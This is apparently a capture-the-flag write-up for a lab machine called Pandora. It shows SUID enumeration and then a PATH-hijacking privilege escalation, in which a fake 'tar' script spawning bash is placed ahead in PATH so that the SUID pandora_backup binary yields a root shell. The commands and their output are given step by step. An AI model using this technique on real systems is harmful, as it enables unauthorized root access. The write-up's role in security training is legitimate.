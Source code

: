 First take a look at the files with suid permissions, here we see that there is a pandora_backup as a binary file

``` bash
matt@pandora:~ find / -perm -u=s -type f 2>/dev/null
/usr/bin/sudo
/usr/bin/pkexec
/usr/bin/chfn
/usr/bin/newgrp
/usr/bin/gpasswd
/usr/bin/umount
/usr/bin/pandora_backup
/usr/bin/passwd
/usr/bin/mount
/usr/bin/su
/usr/bin/at
/usr/bin/fusermount
/usr/bin/chsh
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/usr/lib/policykit-1/polkit-agent-helper-1
```
That `pandora_backup` looks intersting, I downloaded it to my machine and did some testing, and it looks like it uses the tar command to compress files. let's create a poisoned tar file and ran the command to gain root access.

inject matt's home path into an environment variable, and run the pandora_backup file

``` bash
matt@pandora:~$ echo "/bin/bash" > tar
matt@pandora:~$ ls
linpeas.sh  tar  user.txt
matt@pandora:~$ cat tar
/bin/bash
matt@pandora:~$ chmod +x tar
matt@pandora:~$ export PATH=/home/matt:$PATH
matt@pandora:~$ echo $PATH
/home/matt:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
matt@pandora:~$ /usr/bin/pandora_backup
PandoraFMS Backup Utility
Now attempting to backup PandoraFMS client
root@pandora:~#
root@pandora:~# cat /root/root.txt
```

We are in as root! and we've got the root flag.
